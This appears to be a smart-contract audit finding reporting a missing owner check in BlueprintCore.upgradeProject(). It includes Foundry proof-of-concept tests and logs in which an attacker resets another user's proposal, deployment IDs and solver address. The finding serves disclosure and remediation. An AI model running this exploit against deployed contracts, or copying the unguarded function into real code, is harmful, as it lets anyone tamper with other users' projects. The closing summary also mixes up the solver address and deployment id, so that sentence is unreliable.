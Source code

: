 Tangy Indigo Dalmatian

High

# Unauthorized call to `BlueprintCore.upgradeProject` allows to reset existing proposals requests, solverAddr and deployment requests

### Summary

Function `BlueprintCore.upgradeProject()` does not verify the owner of the project.
This leads to the scenario, that everyone can call this function on any existing project.
Function is responsible for resetting project's proposals requests, deployment requests and solver address.
This basically means, that anyone can reset project's proposals requests, deployment requests and solver address of any project.

### Root Cause

[File: src/BlueprintCore.sol](https://github.com/sherlock-audit/2025-03-crestal-network/blob/27a3c28155702b3a68f29347efedffb048010e33/crestal-omni-contracts/src/BlueprintCore.sol#L198)
```solidity
    function upgradeProject(bytes32 projectId) public hasProject(projectId) {
        // reset project info
        projects[projectId].requestProposalID = 0;
        projects[projectId].requestDeploymentID = 0;
        projects[projectId].proposedSolverAddr = dummyAddress;
    }
```

Function `upgradeProject()` does not verify the owner of the `projectId`. This means, that everyone can upgrade everyones' elses projects by resetting project's `proposedSolverAddr`, `requestProposalID` and `requestDeploymentID`

### Internal Pre-conditions

None, functions `upgradeProject()` is callable by anyone.

### External Pre-conditions

Functions `upgradeProject()` has to be called on the existing project.

### Attack Path

### Resetting `proposalId`
1. Bob calls `createProjectIDAndProposalRequest()` to create new project and proposal request.
2. Alice calls `upgradeProject()` on Bob's project.
3. Bob's proposal request is being reset.

Please check function `test_sherlockPoC_unAuthProposalRemoval()` in the provided PoC.

### Resetting `deploymentIds` and `solverAddress`
1. Create new project and call `createDeploymentRequest()` to create new deployment request.
2. Now, as malicious actor - Alice, call `upgradeProject()` on above project.
3. The `solverAddress` and `deploymentIds` will be reset.

Please check function `test_sherlockPoC_unAuthDeploymentRemoval()` in the provided PoC.

### Impact

Malicious actor can reset solver address, proposals and deployment requests of any created project.

### PoC

Include those tests in `test/BlueprintV2.t.sol`.
Add `import {console} from "forge-std/console.sol";`, as those tests `console.logs` many values (to better demonstrate what's happening).

### Resetting `proposalId`

```solidity
   function test_sherlockPoC_unAuthProposalRemoval() public {
        address ALICE = address(0xa11ce);
        address BOB = address(0xb0b);
        bytes32 BOB_PROJECT_NAME = "BOB-PROJECT";

        vm.prank(BOB); // Bob creates new project and proposal request
        blueprint.createProjectIDAndProposalRequest(BOB_PROJECT_NAME, "test base64 param", "test server url");

        bytes32 requestProposalID;
        (, requestProposalID,) = blueprint.getProjectInfo(BOB_PROJECT_NAME);
        console.logString("---> Bob's proposal ID: ");
        console.logBytes32(requestProposalID);
        console.logString("---");

        vm.prank(ALICE); // Alice calls upradeProject on existing project which does not belong to her
        blueprint.upgradeProject(BOB_PROJECT_NAME);

        (, requestProposalID,) = blueprint.getProjectInfo(BOB_PROJECT_NAME);
        console.logString("---> Bob's proposal ID AFTER the attack: ");
        console.logBytes32(requestProposalID); // Alice cleared the Bob's proposal ID from Bob's project.
        console.logString("---");
    }
```

```bash
% forge test --mt test_sherlockPoC_unAuthProposalRemoval -vvv
Ran 1 test for test/BlueprintV2.t.sol:BlueprintTest
[PASS] test_sherlockPoC_unAuthProposalRemoval() (gas: 126218)
Logs:
  ---> Bob's proposal ID: 
  0x5d851dc6492914e8bf16466f6fefcfc385e2d376fdcf03a2a4b0ea150efec9d2
  ---
  ---> Bob's proposal ID AFTER the attack: 
  0x0000000000000000000000000000000000000000000000000000000000000000
  ---
```

As demonstrated above, Bob created new project and proposal request. The ID of this proposal is: `0x5d851dc6492914e8bf16466f6fefcfc385e2d376fdcf03a2a4b0ea150efec9d2`. Then, malicious actor - Alice - called `upgradeProject` on Bob's project. The proposal was removed and is now: `0x0000000000000000000000000000000000000000000000000000000000000000`.

### Resetting `deploymentIds`

```solidity
function test_sherlockPoC_unAuthDeploymentRemoval() public {
        // we are creating new project and create deployment request for it - this is basically the copy-paste of function test_createDeploymentRequest()
        bytes32 projId = blueprint.createProjectID();

        bytes32 deploymentRequestId =
            blueprint.createDeploymentRequest(projId, solverAddress, "test base64 param", "test server url");

        bytes32 requestId = keccak256(
            abi.encodePacked(
                uint256(block.timestamp), address(this), "test base64 param", uint256(block.chainid), uint256(0)
            )
        );

        bytes32 latestDeploymentRequestId = blueprint.getLatestDeploymentRequestID(address(this));
        assertEq(deploymentRequestId, latestDeploymentRequestId);

        assertEq(requestId, latestDeploymentRequestId);

        (address deployedSolverAddr,, bytes32[] memory deploymentIdList) = blueprint.getProjectInfo(projId);

        assertEq(solverAddress, deployedSolverAddr);

        assertEq(deploymentRequestId, deploymentIdList[0]);

        console.log("---> BEFORE THE ATTACK:\n");
        console.logString("Project id: ");
        console.logBytes32(projId);
        console.logString("---");
        console.logString("Deployed Solver address: ");
        console.logAddress(deployedSolverAddr);
        console.logString("---");
        console.logString("Deployment ids: ");
        console.logBytes32(deploymentIdList[0]);
        console.logString("---");

        // here's where the attack starts
        address ALICE = address(0xa11ce);
        vm.prank(ALICE); // Alice calls upradeProject on existing project which does not belong to her
        blueprint.upgradeProject(projId);

        // now, we're confirming, that deployed solver address and deployment ids were removed by Alice
        (address deployedSolverAddr2,, bytes32[] memory deploymentIdList2) = blueprint.getProjectInfo(projId);
        console.log("---> AFTER THE ATTACK:\n");
        console.logString("Project id: ");
        console.logBytes32(projId);
        console.logString("---");
        console.logString("Deployed Solver address: ");
        console.logAddress(deployedSolverAddr2);
        console.logString("---"); // address is addres(0) now (Alice cleared deployed solver address)
        console.logString("Deployment ids: ");
        console.logUint(deploymentIdList2.length);
        console.logString("---"); // array is empty now (Alice cleared deployment ids)
    }
```

```bash
% forge test --mt test_sherlockPoC_unAuthDeploymentRemoval -vvv
[PASS] test_sherlockPoC_unAuthDeploymentRemoval() (gas: 215414)
Logs:
  ---> BEFORE THE ATTACK:

  Project id: 
  0x488d55436254f74bb961add2134792044c6216fc21f4f2d070bf062a6a5d1754
  ---
  Deployed Solver address: 
  0x275960ad41DbE218bBf72cDF612F88b5C6f40648
  ---
  Deployment ids: 
  0xccf133eb63f2d0a2b83ec81ec04e9b5dcf362ef5851b0a9733874bf6563453c7
  ---
  ---> AFTER THE ATTACK:

  Project id: 
  0x488d55436254f74bb961add2134792044c6216fc21f4f2d070bf062a6a5d1754
  ---
  Deployed Solver address: 
  0x0000000000000000000000000000000000000000
  ---
  Deployment ids: 
  0
  ---
```

Above PoC demonstrates that we've created a new project (`0x488d55436254f74bb961add2134792044c6216fc21f4f2d070bf062a6a5d1754`) with solver address: `0xccf133eb63f2d0a2b83ec81ec04e9b5dcf362ef5851b0a9733874bf6563453c7` and deployment id: `0xccf133eb63f2d0a2b83ec81ec04e9b5dcf362ef5851b0a9733874bf6563453c7`.
Then, after unauthorized call by Alice - the deployment ids and solver address were reset.

### Mitigation

Only the project owner should be able to upgrade their own project.